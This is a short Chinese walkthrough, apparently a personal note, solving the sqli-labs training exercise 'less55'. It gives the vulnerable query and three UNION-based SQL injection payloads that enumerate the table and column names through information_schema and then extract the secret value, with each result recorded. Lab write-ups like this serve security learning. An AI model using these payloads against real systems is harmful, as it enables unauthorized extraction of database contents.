 ```yaml
---
title: less55
url: https://www.yuque.com/u29002979/ep2zrx/tka2r9ivly3e3slv
---
```


```bash
$sql="SELECT * FROM security.users WHERE id=($id) LIMIT 0,1";
```

闭合方式为小括号),一共十四次机会\ <a name="qqbdN"></a>

# 爆破数据表

`?id=-1) union select 1,2,group_concat(table_name)from information_schema.tables where table_schema=database()--+`&#x20;
数据表：3cr26yzl9f <a name="bNqYh"></a>

# 爆破数据字段

`?id=-1) union select 1,2,group_concat(column_name)from information_schema.columns where table_name='3cr26yzl9f'--+`&#x20;
字段：secret\_TATB <a name="VdFKq"></a>

# 获取密码

`?id=-1) union select 1,2,(select secret_TATB from 3cr26yzl9f)--+`
密码：zXYZR5qfxz3Q2LUi8v1ip6dx
